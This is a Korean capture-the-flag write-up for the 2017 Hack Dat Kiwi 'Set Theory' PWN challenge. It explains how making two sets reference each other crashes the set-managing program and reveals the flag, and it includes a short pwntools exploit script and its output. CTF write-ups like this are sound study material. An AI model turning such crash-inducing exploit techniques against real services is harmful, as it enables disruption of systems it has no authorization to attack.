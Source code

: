 # [2017_Hack_Dat_Kiwi] \[PWN] Set Theory

## Analysis

이 문제도 Chessmaster 문제와 비슷하게 크래시가 발생하면 플래그가 출력됩니다.

```
Type help for help:
> help
set1 = |"data", set2|	Create a set
set1 = set2+set3	union
set1 = set2^set3	intersection
set1 = set2-set3	difference
set1 = set2~set3	symmetric difference
set1 @@ set2		subset. Result is T or F
help		Help menu
exit		Exit
print		Prints all sets and their elements
prints <set1>	Print an expanded set
> 
```

프로그램은 집합을 관리하는 프로그램입니다.

```
Type help for help:
> set1=|"aaa"|
> set2=|"bbb"|
> print 
@s = |"@s"|
@s = |"@s"|
> prints set1
set1 = |"aaa"|
> prints set2
set2 = |"bbb"|
> 
```

위와 같이 집합을 만들고 변경하고 출력해볼 수 있습니다.

어떻게 해야 크래시를 발생시킬 수 있을지 고민했습니다. 분석해보니 집합이 포인터에 의해 관리되는데 이 포인터가 서로가 서로를 참조하게 하면 크래시가 발생할 듯 싶었습니다.

## Exploit

```python
from pwn import *

p = remote("0", 2004)
print p.recv()
payload = "aaa=||"
p.sendline(payload)

print p.recv()
payload = "bbb=||"
p.sendline(payload)

print p.recv()
payload = "aaa=|bbb|"
p.sendline(payload)

print p.recv()
payload = "bbb=|aaa|"
p.sendline(payload)
p.interactive()
```

## Result

```
# python ex.py 
[+] Opening connection to 0 on port 2004: Done
Type help for help:
> 
> 
> 
> 
[*] Switching to interactive mode
> $ prints aaa
Flag is: Could not open file
```


